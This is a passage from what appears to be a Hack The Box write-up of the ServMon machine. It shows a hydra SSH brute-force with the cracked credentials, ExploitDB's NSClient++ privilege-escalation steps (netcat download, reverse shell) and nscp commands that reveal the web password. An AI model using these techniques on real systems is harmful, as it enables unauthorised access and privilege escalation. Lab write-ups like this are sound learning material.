```bash
hydra -L users.txt -P pass.txt ssh://10.10.10.184

Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-05-29 20:49:13
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 16 login tries (l:2/p:8), ~1 try per task
[DATA] attacking ssh://10.10.10.184:22/
[22][ssh] host: 10.10.10.184   login: nadine   password: L1k3B1gBut7s@W0rk
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-05-29 20:49:15
```

`hydra` finds valid SSH credentials for `Nadine` - `nadine / L1k3B1gBut7s@W0rk`.
This gives me a user shell.

Given that I know there is a privilege escalation vulnerability in NSClient++, that is what I focus on now.
The steps for the privilege escalation [as documented on ExploitDB][privesc] are:

1. Run `nscp web -- password --display` to get the current password
2. Login and enable the `CheckExternalScripts` and `Scheduler` modules
3. Download a netcat executable to `c:\temp` from the attacker's machine
4. Set up a netcat listener on the attacker's machine
5. Add a script to NSClient++ to call netcat as a `.bat` script and save NSClient++ settings
6. Add a Schedule to call this script every minute and save settings
7. Restart the computer and wait for the reverse shell on the attacker's machine

The Scheduler portion and restarting the machine seem to do with maintaining persistence, which I don't need for this exercise.
I should be able to invoke the script manually with a `nscp` command and trigger a reverse shell through netcat.

Running `nscp -h` shows that I have CLI access to NSClient++.

```bat
nadine@SERVMON C:\Program Files\NSClient++>nscp web -h
Usage: nscp web [install|password|add-user|add-role] --help

nadine@SERVMON C:\Program Files\NSClient++>nscp web password -h
  help                 Show help.
  set=ARG              Set the new password
  display              Display the current configured password
  only-web             Set the password for WebServer only (if not specified
                       the default password is used)
```

Let's get the password.

```bat
nadine@SERVMON C:\Program Files\NSClient++>nscp web password --display
Current password: ew2x6SsGTxjRwXOT
```


[burp]: https://portswigger.net/burp
[exploitdb]: https://www.exploit-db.com/
[hackthebox]: https://www.hackthebox.eu
[hydra]: https://tools.kali.org/password-attacks/hydra
[nsclient++]: https://nsclient.org/
[privesc]: https://www.exploit-db.com/exploits/46802
[rce]: https://www.exploit-db.com/exploits/48360
[root shell]: /assets/img/htb/servmon/root-shell.png